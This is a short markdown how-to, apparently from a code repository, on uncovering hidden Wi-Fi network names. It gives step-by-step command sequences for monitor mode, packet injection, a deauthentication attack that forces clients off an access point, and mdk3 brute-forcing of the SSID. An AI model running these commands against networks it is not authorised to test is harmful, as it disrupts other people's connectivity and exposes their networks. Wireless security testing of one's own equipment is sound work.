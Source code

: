 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.

---

## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
airmon-ng check kill
```
Start monitor mode:
```
airmon-ng start wlan1
```
Run a test:
```
aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

Save what's out there and save to a file:
```
airodump-ng wlan1mon --band agp -w dump
```

---

## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name.
Run airodump live to see ESSID update:
```
airodump-ng wlan1mon --band agp
```
Deauth target client MAC (`-c`) with AP MAC (`-a`)  (both found in dump):
```
aireplay-ng -0 100 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```

## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
